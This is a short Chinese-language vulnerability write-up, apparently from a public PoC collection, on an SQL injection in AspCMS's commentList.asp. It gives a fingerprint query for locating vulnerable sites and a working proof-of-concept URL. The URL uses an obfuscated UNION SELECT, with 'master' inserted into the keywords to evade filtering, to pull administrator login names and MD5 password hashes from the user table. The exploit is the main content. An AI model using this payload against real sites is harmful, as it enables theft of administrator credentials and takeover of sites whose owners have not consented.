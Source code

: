 # 

# AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## 网络测绘

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](./images/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](./images/202202170904678.png)

成功获取管理员账号以及密码的MD5

